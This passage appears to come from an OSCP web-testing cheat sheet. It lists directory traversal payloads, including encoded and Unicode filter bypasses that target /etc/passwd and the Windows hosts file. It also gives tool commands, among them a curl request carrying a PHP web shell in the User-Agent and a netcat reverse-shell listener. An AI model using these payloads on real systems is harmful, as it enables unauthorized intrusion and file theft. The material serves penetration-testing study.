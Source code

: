 ### Scenario 7: Directory Traversal

#### 7.1 Basic Directory Traversal
```bash
# Standard payloads
../../../etc/passwd
..\\..\\..\\windows\\system32\\drivers\\etc\\hosts

# Encoded payloads
%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
..%252f..%252f..%252fetc%252fpasswd

# Unicode bypasses
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
```

#### 7.2 Advanced Traversal Techniques
```bash
# Bypass filename restrictions
....//....//....//etc/passwd
..././..././..././etc/passwd

# Absolute path attempts
/etc/passwd
C:\windows\system32\drivers\etc\hosts
file:///etc/passwd
```

---

## Essential Tools and Commands {#tools}

### Primary Tools for OSCP Web Testing

#### Burp Suite (Essential)
```bash
# Key Burp Suite features for OSCP:
- Proxy intercept and modify requests
- Repeater for payload testing
- Intruder for parameter brute forcing
- Target site map generation
- Extension integration (not Burp Pro features)
```

#### Command Line Tools
```bash
# cURL - HTTP client for manual testing
curl -X POST -d "param=value" http://target_ip/endpoint
curl -H "X-Forwarded-For: 127.0.0.1" http://target_ip
curl -b "PHPSESSID=test" http://target_ip
curl -A "<?php system(\$_GET['cmd']); ?>" http://target_ip

# Netcat - Network utility
nc -lvnp 4444  # Reverse shell listener
nc target_ip 80  # Banner grabbing

# Python HTTP server - Host payloads
python3 -m http.server 8000
```
